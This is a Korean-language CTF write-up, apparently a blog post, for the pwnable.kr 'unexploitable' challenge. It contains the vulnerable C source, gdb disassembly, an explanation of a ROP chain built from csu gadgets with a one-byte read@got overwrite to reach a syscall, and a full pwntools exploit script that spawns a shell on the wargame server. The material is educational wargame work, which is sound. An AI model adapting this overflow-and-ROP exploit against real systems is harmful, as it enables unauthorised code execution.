 ```yaml
---
layout: post
date: 2021-11-14
title: "pwable.kr unexploitable write-up"
tags: [ROP, pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```



## 소스코드 분석


---



{% raw %}
```c
#include <stdio.h>
void main(){
	// no brute forcing
	sleep(3);
	// exploit me
	int buf[4];
	read(0, buf, 1295);
}
```
{% endraw %}



코드는 간단하다. <br>
출력함수 없이 read 함수만 존재하고 bof가 터진다.<br><br>


### 취약점 분석


---


가젯이 많이 부족하다.<br>
쓸만한 가젯을 찾던 중에 syscall을 발견했고, csu 부분을 이용해서 execve를 실행시키면 될 거 같다.<br>
syscall은 read 함수의 got를 1byte 변조해서 사용했다.



{% raw %}
```shell
pwndbg> disas read
Dump of assembler code for function __GI___libc_read:
   0x00007ffff7af2140 <+0>:	lea    rax,[rip+0x2e0891]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7af2147 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7af2149 <+9>:	test   eax,eax
   0x00007ffff7af214b <+11>:	jne    0x7ffff7af2160 <__GI___libc_read+32>
   0x00007ffff7af214d <+13>:	xor    eax,eax
   0x00007ffff7af214f <+15>:	syscall
```
{% endraw %}



{: file='gdb'}


하위 1byte를 0x4f로 변조해줬다.<br>
<br>


사실 삽질을 굉장히 많이 했는데, 처음엔 sleep 함수의 got를 변조할 생각이었다.<br>
하지만 syscall의 주소가 sleep 함수의 got와 하위 1.5 byte가 달랐기 때문에 실패하였다.<br>



{% raw %}
```shell
pwndbg> disas sleep
Dump of assembler code for function __sleep:
   0x00007ffff7ac6640 <+0>:	push   rbp
   0x00007ffff7ac6641 <+1>:	push   rbx
   0x00007ffff7ac6642 <+2>:	sub    rsp,0x28
   0x00007ffff7ac6646 <+6>:	mov    rbx,QWORD PTR [rip+0x30681b]        # 0x7ffff7dcce68
   0x00007ffff7ac664d <+13>:	mov    rax,QWORD PTR fs:0x28
   0x00007ffff7ac6656 <+22>:	mov    QWORD PTR [rsp+0x18],rax
   0x00007ffff7ac665b <+27>:	xor    eax,eax
   0x00007ffff7ac665d <+29>:	mov    eax,edi
   0x00007ffff7ac665f <+31>:	mov    rdi,rsp
   0x00007ffff7ac6662 <+34>:	mov    QWORD PTR [rsp+0x8],0x0
   0x00007ffff7ac666b <+43>:	mov    rsi,rdi
   0x00007ffff7ac666e <+46>:	mov    ebp,DWORD PTR fs:[rbx]
   0x00007ffff7ac6671 <+49>:	mov    QWORD PTR [rsp],rax
   0x00007ffff7ac6675 <+53>:	call   0x7ffff7ac6760 <__GI___nanosleep> # here
```
{% endraw %}



{: file='gdb'}



{% raw %}
```shell
pwndbg> disas __GI___nanosleep
Dump of assembler code for function __GI___nanosleep:
   0x00007ffff7ac6760 <+0>:	lea    rax,[rip+0x30c271]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7ac6767 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7ac6769 <+9>:	test   eax,eax
   0x00007ffff7ac676b <+11>:	jne    0x7ffff7ac6780 <__GI___nanosleep+32>
   0x00007ffff7ac676d <+13>:	mov    eax,0x23
   0x00007ffff7ac6772 <+18>:	syscall # here
```
{% endraw %}



{: file='gdb'}


때문에 read 함수의 syscall을 사용하기로 했다.
<br><br>
일단 read 함수를 통해서 bss 영역에 /bin/sh 문자열을 써주었고, 다시 read 함수를 사용해서 read@got를 syscall로 변조해줬다. <br>
하위 1byte를 변조했기 때문에 rax는 1로 세팅이 되어있었고, 덕분에 write 함수를 사용할 수 있었다. <br>
아무 곳에서 execve의 syscall number만큼 읽어들이면 rax가 그 숫자로 맞춰지기 때문에 rdi에 아까 써둔 문자열이 위치한 bss 영역의 주소를 넣어주면 쉘을 실행시킬 수 있다. <br>


<br>


### 익스플로잇


---



{% raw %}
```python
#unexploitable.py
from pwn import *

s = ssh(user='unexploitable',host='pwnable.kr',port=2222,password='guest')
p = s.process("./unexploitable")

## p = process('./unexploitable')

e = ELF('./unexploitable')
bss = e.bss()

read_plt = e.plt['read']
read_got = e.got['read']

csu_init = p64(0x00000000004005e6)
csu_call = p64(0x00000000004005d0)

payload = 'A' * 24

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(bss)
payload += p64(0x8)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_got)
payload += p64(1)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(1)
payload += p64(read_got)
payload += p64(0x3b)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(bss)
payload += p64(0)
payload += p64(0)
payload += csu_call

p.send(payload)
sleep(3)
p.send('/bin/sh\\x00')
sleep(3)
p.send('\\x5e\\x00')

p.interactive()
```
{% endraw %}



<br>


![0](/assets/img/2021-11-14-pwable.kr-unexploitable-write-up.md/0.png)


쉘을 획득했다.

